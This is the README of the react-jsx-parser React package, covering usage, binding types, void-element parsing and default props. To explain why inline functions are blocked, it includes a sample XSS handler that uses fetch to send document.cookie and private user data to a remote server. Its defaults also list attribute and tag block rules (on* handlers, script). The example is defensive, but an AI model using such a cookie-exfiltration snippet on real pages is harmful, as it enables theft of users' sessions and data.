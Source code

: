 # react-jsx-parser [![CircleCI][circle-ci-badge]](https://circleci.com/gh/TroyAlford/react-jsx-parser) [![Version][npm-version]][npm-link] [![NPM Downloads][npm-downloads]][npm-link] [![License][npm-license]](https://github.com/TroyAlford/react-jsx-parser/blob/master/LICENSE)

[circle-ci-badge]: https://circleci.com/gh/TroyAlford/react-jsx-parser.svg?style=svg
[npm-version]: https://img.shields.io/npm/v/react-jsx-parser.svg
[npm-downloads]: https://img.shields.io/npm/dt/react-jsx-parser.svg
[npm-license]: https://img.shields.io/npm/l/react-jsx-parser.svg
[npm-link]: https://www.npmjs.com/package/react-jsx-parser

A React component which can parse JSX and output rendered React Components.

## Basic Usage - Injecting JSX as a String
```javascript
import React from 'react'
import JsxParser from 'react-jsx-parser'
import Library from 'some-library-of-components'

class InjectableComponent extends Component {
  static defaultProps = {
    eventHandler: () => {}
  }
  // ... inner workings of InjectableComponent
}

const MyComponent = () => (
  <JsxParser
    bindings={{
      foo: 'bar',
      myEventHandler: () => { /* ... do stuff ... */ },
    }}
    components={{ InjectableComponent, Library }}
    jsx={`
      <h1>Header</h1>
      <InjectableComponent eventHandler={myEventHandler} truthyProp />
      <Library.SomeComponent someProp={foo} calc={1 + 1} stringProp="foo" />
      <Library.DataFetcher>((data) => <div>{data.name}</div>)</Library.DataFetcher>
    `}
  />
)
```

Because `InjectableComponent` is passed into the `JsxParser.props.components` prop, it is treated as a known element
type, and created using `React.createElement(...)` when parsed out of the JSX. You can also pass in a whole collection
of components, as shown by the `Library` binding, and then access the individual items with `LibraryName.ComponentName`.

Finally, a note about property bindings. The `JsxParser` can handle several types of binding:
 - implicit `true` bindings, such as `<InjectableComponent truthyProp />` (equivalent to `truthyProp={true}`)
 - string-value binding, such as `stringProp="foo"`
 - expression-binding, such as `calc={1 + 1}`
 - named-value binding, such as `eventHandler={myEventHandler}` (note that this requires a match in `bindings`)
 - simple [single statement arrow expressions](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Functions/Arrow_functions#basic_syntax) `(item) => <p>{item.name}</p>`

The component **_does not_** support inline function declarations, such as:
 - `onClick={function (event) { /* do stuff */ }}`, or
 - `onKeyPress={event => { /* do stuff */}}`
 - Function or arrow functions with bodies `() => { return <p>This will not work</p> }`

This is to prevent inadvertent XSS attack vectors. Since the primary use of this component is to allow JSX to be stored server-side, and then late-interpreted at the client-side, this restriction prevents a malicious user from stealing info by executing a situation like:
```javascript
<JsxParser
  bindings={{ userInfo: { private: 'data' } }}
  onClick={() => {
    fetch('/some/remote/server', {
      body: JSON.stringify({ cookies: document.cookie, userInfo })
    })
  }}
/>
```

## Advanced Usage - Injecting Dynamic JSX
```javascript
// Import desired set of components
import { ComponentA, ComponentB } from 'somePackage/Components'
import ComponentC from 'somePackage/ComponentC'
import ComponentD from 'somePackage/ComponentD'
...
// Load an HTML or XML fragment from a remote API
const dynamicHtml = loadRemoteData()
...
// Within your component's render method, bind these components and the fragment as props
<JsxParser
  bindings={bindings}
  components={{ ComponentA, ComponentB, ComponentC, ComponentD }}
  jsx={dynamicHtml}
/>
```

Any `ComponentA`, `ComponentB`, `ComponentC` or `ComponentD` tags in the dynamically loaded XML/HTML fragment will be rendered as React components. Any unrecognized tags will be handled by `React`.

_Note:_ Non-standard tags may throw errors and warnings, but will typically be rendered in a reasonable way.

## Advanced Usage - HTML & Self-Closing Tags
When rendering HTML, standards-adherent editors will render `img`, `hr`, `br`, and other
[void elements](https://www.w3.org/TR/2011/WD-html-markup-20110113/syntax.html#void-elements) with no trailing `/>`. While this is valid HTML, it is _not_ valid JSX. If you wish to opt-in to a more HTML-like parsing style, set the `autoCloseVoidElements` prop to `true`.

### Example:
```jsx
// <hr> has no closing tag, which is valid HTML, but not valid JSX
<JsxParser jsx="<hr><div className='foo'>Foo</div>" />
// Renders: null

// <hr></hr> is invalid HTML, but valid JSX
<JsxParser jsx="<hr></hr><div className='foo'>Foo</div>" />
// Renders: <hr><div class='foo'>Foo</div>

// This is valid HTML, and the `autoCloseVoidElements` prop allows it to render
<JsxParser autoCloseVoidElements jsx="<hr><div className='foo'>Foo</div>" />
// Renders: <hr><div class='foo'>Foo</div>

// This would work in a browser, but will no longer parse with `autoCloseVoidElements`
<JsxParser autoCloseVoidElements jsx="<hr></hr><div className='foo'>Foo</div>" />
// Renders: null
```

## PropTypes / Settings
```javascript
JsxParser.defaultProps = {
  allowUnknownElements: true, // by default, allow unrecognized elements
  // if false, unrecognized elements like <foo> are omitted and reported via onError

  autoCloseVoidElements: false, // by default, unclosed void elements will not parse. See examples

  bindings: {}, // by default, do not add any additional bindings

  blacklistedAttrs: [/^on.+/i], // default: removes `on*` attributes (onClick, onChange, etc.)
  // any attribute name which matches any of these RegExps will be omitted entirely

  blacklistedTags:  ['script'], // by default, removes all <script> tags

  className: '', // space-delimited classes to add to wrapper (ignored if renderInWrapper=false)

  components: {}, // an object map of component tag-names to their definitions - see above
  // components must extend React.Component, React.PureComponent, or be a Function

  componentsOnly: false, // non-component HTML tags are allowed by default, omitted if true

  disableFragments: false, // if true, React <Fragment />s will not be used.
  // Note: This introduces subtle errors with regard to white-space, and is provided only for
  // backward compatibility with React 15.x

  disableKeyGeneration: false, // if true, rendering will not automatically generate `key` props.
  // Note: This may result in the "Child elements should have a unique 'key' prop " React error.

  jsx: '', // the jsx string to be parsed & rendered

  onError: () => {}, // if specified, any rendering errors are reported via this method

  showWarnings: false, // if true showWarnings, rendering errors are output with console.warn

  renderError: undefined, // if specified, this function can be used to render errors as a fallback

  renderInWrapper: true, // if false, the HTML output will have no <div> wrapper

  renderUnrecognized: tagName => null, // unrecognized tags are rendered via this method
}
```

## Older Browser Support

If your application needs to support older browsers, like `IE11`, import from `react-jsx-parser/dist/es5/react-jsx-parser.min.js`,
which transpiles the `acorn-jsx` dependency down to ES5, and also adds additional polyfill support for code used in this package.

**Note**: <u>not</u> recommended for implementations which only support modern browsers, as the ES5 version is roughly 30% larger.
